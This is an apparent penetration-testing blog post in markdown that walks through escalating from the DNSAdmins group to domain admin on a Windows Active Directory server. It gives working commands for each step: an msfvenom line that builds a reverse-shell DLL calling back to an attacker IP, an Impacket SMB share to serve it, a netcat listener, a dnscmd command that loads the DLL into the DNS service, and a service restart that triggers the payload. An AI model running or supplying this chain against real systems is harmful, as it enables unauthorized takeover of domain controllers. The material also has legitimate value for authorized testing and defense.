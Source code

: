 ```yaml
---
title: "Windows Privilege Escalation: DNSAdmins to Domain Admins - Server Level DLL Injection"
date: 2019-12-21
tags: [privesc, windows, dnsadmin]
permalink: /windows-privilege-escalation-dnsadmin-to-domaincontroller/
---
```


Say you have compromised a Windows machine that provides Active Directory Directory Services to its users and have gained access as a user who is a part of the DNSAdmins group, you can use this method to privilege escalate.

Here, what we're doing is:
1. Making a dll payload that sends a reverse shell back to our machine with `msfvenom`.
2. Serving it using SMB Server to make it available to the Windows machine. (You can use any other way to transfer it to the remote machine, but be careful, it might get nuked by the Anti-Virus.) And, we will also setup a `netcat` listener to catch our reverse shell.
3. Importing that dll in the DNS Server.
4. Restarting the DNS Server so that it loads the dll file.

Checking if your user is a part of the DNSAdmins group:

```powershell
whoami /all
```

Now, on to the fun part:

#### Making the payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.211.55.13 LPORT=4444 --platform=windows -f dll > ~/windows/privesc/plugin.dll
```

Here, because the Windows machine is of 64 bit achitechture, we're using x64 payload.

#### Serving the file using SMB Server

We use `smbserver.py`, that comes with `Python3-Impacket`.

```powershell
cd /usr/share/doc/python3-impacket/examples
./smbserver.py SHARE ~/windows/privesc/
```

In another terminal tab, set up a netcat listener to catch the reverse shell:

```powershell
nc -nvlp 4444
```

## Now, in the compromised Windows machine

#### Importing the plugin:

```powershell
dnscmd.exe myserver.local /config /serverlevelplugindll \\10.211.55.13\share\plugin.dll
```

#### Restarting the service:

```powershell
sc.exe stop dns
sc.exe start dns
```

Now, go back and check the netcat listener, you should have a reverse shell.
